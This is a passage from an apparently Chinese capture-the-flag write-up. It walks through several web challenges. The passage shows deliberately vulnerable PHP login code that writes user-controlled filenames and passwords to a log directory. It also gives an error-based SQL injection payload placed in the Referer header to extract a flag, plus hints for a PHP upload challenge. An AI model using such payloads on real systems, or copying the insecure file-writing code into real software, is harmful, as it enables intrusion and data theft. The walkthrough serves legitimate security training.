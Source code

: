 <span class="hljs-preprocessor">?&gt;</span></span>
</code></pre>
<p>login.php</p>
<pre class="prettyprint"><code class=" hljs xml"><span class="php"><span class="hljs-preprocessor">&lt;?php</span>
<span class="hljs-variable">$login</span>=@<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'login'</span>];
<span class="hljs-variable">$password</span>=@<span class="hljs-variable">$_POST</span>[<span class="hljs-string">'password'</span>];
<span class="hljs-keyword">if</span>(@<span class="hljs-variable">$login</span>==<span class="hljs-string">"admin"</span> &amp;&amp; sha1(@<span class="hljs-variable">$password</span>)==<span class="hljs-variable">$pwhash</span>){
    <span class="hljs-keyword">include</span>(<span class="hljs-string">'flag.txt'</span>);
}<span class="hljs-keyword">else</span> <span class="hljs-keyword">if</span> (@<span class="hljs-variable">$login</span>&amp;&amp;@<span class="hljs-variable">$password</span>&amp;&amp;@<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'debug'</span>]) {
    <span class="hljs-keyword">echo</span> <span class="hljs-string">"Login error, login credentials has been saved to ./log/"</span>.htmlentities(<span class="hljs-variable">$login</span>).<span class="hljs-string">".log"</span>;
    <span class="hljs-variable">$logfile</span> = <span class="hljs-string">"./log/"</span>.<span class="hljs-variable">$login</span>.<span class="hljs-string">".log"</span>;
    file_put_contents(<span class="hljs-variable">$logfile</span>, <span class="hljs-variable">$login</span>.<span class="hljs-string">"\n"</span>.<span class="hljs-variable">$password</span>);
} 
<span class="hljs-preprocessor">?&gt;</span></span>
    <span class="hljs-tag">&lt;<span class="hljs-title">center</span>&gt;</span>
        login<span class="hljs-tag">&lt;<span class="hljs-title">br</span>/&gt;</span><span class="hljs-tag">&lt;<span class="hljs-title">br</span>/&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-title">form</span> <span class="hljs-attribute">action</span>=<span class="hljs-value">""</span> <span class="hljs-attribute">method</span>=<span class="hljs-value">"POST"</span>&gt;</span>
            <span class="hljs-tag">&lt;<span class="hljs-title">input</span> <span class="hljs-attribute">name</span>=<span class="hljs-value">"login"</span> <span class="hljs-attribute">placeholder</span>=<span class="hljs-value">"login"</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-title">br</span>/&gt;</span>
            <span class="hljs-tag">&lt;<span class="hljs-title">input</span> <span class="hljs-attribute">name</span>=<span class="hljs-value">"password"</span> <span class="hljs-attribute">placeholder</span>=<span class="hljs-value">"password"</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-title">br</span>/&gt;</span><span class="hljs-tag">&lt;<span class="hljs-title">br</span>/&gt;</span>
            <span class="hljs-tag">&lt;<span class="hljs-title">input</span> <span class="hljs-attribute">type</span>=<span class="hljs-value">"submit"</span> <span class="hljs-attribute">value</span>=<span class="hljs-value">"Go!"</span>&gt;</span>
        <span class="hljs-tag">&lt;/<span class="hljs-title">form</span>&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-title">center</span>&gt;</span>

</code></pre>
<p>代码逻辑很明确,首先在login.php生成./log/xxx.log <br>
接着访问index.php即可</br></p>
<h2 id="0x06-http-头注入">0x06 http 头注入</h2>
<p><a href="http://218.76.35.75:20121">链接</a> <br>
经过一番测试发现在referer处有报错</br></p>
<p>具体的利用方法是insert注入，可以参考我<a href="http://blog.csdn.net/qq_31481187/article/details/59727015#t23">以前写的文章</a></p>
<p>具体的payload:<code>1123' or extractvalue(1,concat(0x5c,(select flag from flag))) or '','123')#</code></p>
<h2 id="0x07-简单的文件上传">0x07 简单的文件上传</h2>
<p><a href="http://218.76.35.75:20122">链接</a> <br>
不懂是什么意思 上传个php文件就可以</br></p>
<h2 id="0x08-简单的js">0x08 简单的JS</h2>
<p><a href="http://218.76.35.75:20123">链接</a></p>
<p>这个也是摸不到头脑，赋值粘贴执行初来链接 <br>
<code>http://218.76.35.75:20123/fl0a.php</code> <br>
查看cookie 得到flag</br></br></p>
<h2 id="0x09-php-是门松散的语言">0x09 php 是门松散的语言</h2>